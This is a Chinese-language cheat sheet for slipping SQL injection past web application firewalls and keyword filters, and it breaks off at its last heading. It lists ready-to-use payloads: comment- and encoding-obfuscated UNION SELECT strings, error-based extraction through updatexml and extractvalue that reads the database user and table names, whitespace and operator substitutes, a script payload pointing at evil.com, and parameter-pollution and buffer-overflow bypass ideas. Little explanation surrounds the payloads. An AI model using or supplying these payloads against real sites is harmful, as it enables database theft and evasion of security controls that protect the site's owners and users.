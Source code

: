 
- 使用注释

常见的用于注释的符号有哪些：//, — , /**/, #, –+,– -, ;**，–a

1. 普通注释:-15 %55nION/**/%53ElecT 1,2,3,4 'union%a0select pass from users#
2. 内联注释:-15 /!UNION/ /!SELECT/ 1,2,3 ?page_id=null%0A///!50000%55nIOn//yoyu/all//%0A/!%53eLEct/%0A/nnaa/+1,2,3,4…

- 等价函数与命令

1. 函数或变量
    hex()、bin() ==> ascii()
    sleep() ==>benchmark()
    concat_ws()==>group_concat()
    mid()、substr() ==> substring()
    @@user ==> user()
    @@datadir ==> datadir()

2. 符号：
    and和or有可能不能使用，或者可以试下&&和||能不能用；还有=不能使用的情况，可以考虑尝试<、>，因为如果不小于又不大于，那边是等于了在看一下用得多的空格，可以使用如下符号表示其作用：%20 %09 %0a %0b %0c %0d %a0 /**/s

3. 生僻函数

```linux
MySQL/PostgreSQL支持XML函数：Select UpdateXML('<script x=_></script> ','/script/@x/','src=//evil.com');
?id=1 and 1=(updatexml(1,concat(0x3a,(select user())),1))
SELECT xmlelement(name img,xmlattributes(1as src,'a\l\x65rt(1)'as \117n\x65rror));　//postgresql
?id=1 and extractvalue(1, concat(0x5c, (select table_name from information_schema.tables limit 1)));
MySQL、PostgreSQL、Oracle它们都有许多自己的函数，基于黑名单的filter要想涵盖这么多东西从实际上来说不太可能，而且代价太大，看来黑名单技术到一定程度便遇到了限制
```

- 特殊符号

1. 使用反引号，例如selectversion()`，可以用来过空格和正则，特殊情况下还可以将其做注释符用
2. 神奇的”-+.”，select+id-1+1.from users; “+”是用于字符串连接的，”-”和”.”在此也用于连接，可以逃过空格和关键字过滤
3. @符号，select@^1.from users; @用于变量定义如@var_name，一个@表示用户定义，@@表示系统变量
4. Mysql function() as xxx 也可不用as和空格　　 select-count(id)test from users; //绕过空格限制

部分可能发挥大作用的字符(未包括'、*、/等在内，考虑到前面已经出现较多次了)：`、~、!、@、%、()、[]、.、-、+ 、|、%00

一些和这些字符多少有点关系的操作符供参考：

```s
>>, <<, >=, <=, <>,<=>,XOR, DIV, SOUNDS LIKE, RLIKE, REGEXP, IS, NOT, BETWEEN
```

- HTTP参数控制

1.HPP(HTTP Parameter Polution)
2.HPF(HTTP Parameter Fragment)
3.HPC(HTTP Parameter Contamination)

- 缓冲区溢出

缓冲区溢出用于对付WAF，有不少WAF是C语言写的，而C语言自身没有缓冲区保护机制，因此如果WAF在处理测试向量时超出了其缓冲区长度，就会引发bug从而实现绕过

- 整合绕过
